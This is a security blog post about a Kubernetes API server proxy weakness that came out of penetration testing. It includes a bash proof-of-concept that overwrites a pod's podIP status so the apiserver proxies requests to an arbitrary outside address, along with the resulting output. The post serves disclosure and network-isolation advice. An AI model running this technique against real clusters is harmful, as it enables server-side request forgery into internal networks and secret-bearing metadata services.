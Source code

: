+++
authors = ["Michael Schubert"]
date = "2019-02-01T12:00:00+02:00"
description = "Abusing Kubernetes API server proxying"
draft = false
tags = ["kubernetes", "security"]
title = "Abusing Kubernetes API server proxying"
topics = ["kubernetes", "security"]
postImage =  "article-hero.jpg"
+++

The [Kubernetes API server
proxy](https://kubernetes.io/docs/concepts/cluster-administration/proxies/)
allows a user outside of a Kubernetes cluster to connect to cluster IPs which
otherwise might not be reachable. For example, this allows accessing a service
which is only exposed within the cluster’s network. The apiserver acts as a
proxy and bastion between user and in-cluster endpoint.

<figure class="img-fluid w-75 mx-auto">
	<img src="/media/kubernetes-apiserver-proxying.svg" class="img-fluid">
</figure>

### API server proxy security advisory

Last summer, while performing penetration testing, we found an issue with
Kubernetes API server proxying. We took this discovery to the [private
Kubernetes security
list](https://kubernetes.io/docs/reference/issues-security/security/#report-a-vulnerability)
which recently lead to a [security
advisory](https://groups.google.com/forum/#!topic/kubernetes-dev/P0ghX_DViy8).

"_Operators of the API server are strongly advised to operate the Kubernetes
API server in the same network as the nodes or firewall it sufficiently. It is
highly recommended to not run any other services you wish to be secure and
isolated on the same network as the cluster unless you firewall it away from
the cluster, specifically any outbound connections from the API server to
anything else. The Kubernetes control plane has many user-configurable features
(aggregated APIs, dynamic admission webhooks, and conversion webhooks coming
soon) which involve the Kubernetes API server sourcing network traffic._"

Prior to the advisory an [update to
Kubernetes](https://github.com/kubernetes/kubernetes/pull/71980/files) was made
where proxy functionality was disabled for loopback and link-local addresses.
That makes it no longer possible to abuse apiserver proxying for pods to
reach, for example,  sidecar containers or the well-known link-local address
169.254.169.254. This address is commonly used for meta data services in cloud
environments (e.g. AWS) and often gives access to secret data.

### API server remains open to abuse

It's great that we've now got those cases covered, but the apiserver still can
be abused as an open HTTP proxy. Thus, it remains crucial to isolate the
network correctly. Let's take a closer look to understand why this is.

The interesting question to investigate is, "Can we trick the
apiserver into connecting to IP addresses that are not part of the cluster’s
network and not assigned to a pod or service in the cluster?" Additionally, in a
Kubernetes setup where the Kubernetes API server is operated in a different
network than the worker nodes (as for example on GKE): can we abuse the
apiserver’s built-in proxy to send requests to IP addresses within the
apiserver’s network or to sidecar containers of it (in a [self-hosted Kubernetes cluster](https://github.com/kubernetes-incubator/bootkube))
that are not meant to be reachable for users at all?

When the apiserver receives a proxy request for a service or pod, it looks up
an [endpoint](https://kubernetes.io/docs/reference/generated/kubernetes-api/v1.13/#endpoints-v1-core)
or pod IP address to forward the request to. Both endpoint and pod IP are
populated from the pod’s [status](https://kubernetes.io/docs/reference/generated/kubernetes-api/v1.13/#podstatus-v1-core)
which contains the `podIP` field as reported by the kubelet. So what happens if
we send our own pod status for a nginx pod as shown in the following script?

```bash
#!/bin/bash

set -euo pipefail

readonly PORT=8001
readonly POD=nginx-7db75b8b78-r7p79
readonly TARGETIP=172.217.19.78

while true; do
  curl -v -H 'Content-Type: application/json' \
    "http://localhost:${PORT}/api/v1/namespaces/default/pods/${POD}/status" >"${POD}-orig.json"

  cat $POD-orig.json |
    sed 's/"podIP": ".*",/"podIP": "'${TARGETIP}'",/g' \
      >"${POD}-patched.json"

  curl -v -H 'Content-Type:application/merge-patch+json' \
    -X PATCH -d "@${POD}-patched.json" \
    "http://localhost:${PORT}/api/v1/namespaces/default/pods/${POD}/status"

  rm -f "${POD}-orig.json" "${POD}-patched.json"
done
```

From the apiserver’s perspective, the pod now has IP address 172.217.19.78.
When we try to connect to the pod via kubectl proxy, the apiserver will in fact
establish a HTTP connection to 172.217.19.78, our target IP.

```bash
curl localhost:8001/api/v1/namespaces/default/pods/nginx-7db75b8b78-r7p79/proxy/
…
<a href="//www.google.com/"/><span id="logo" aria-label="Google"></span></a>
...
```

As demonstrated, we can indeed trick the apiserver. The moral of this story is to follow the advisory's recommendation and isolate your network properly.


If you need help improving the security of your Kubernetes environment, please contact us
at [hello@kinvolk.io](mailto:hello@kinvolk.io).
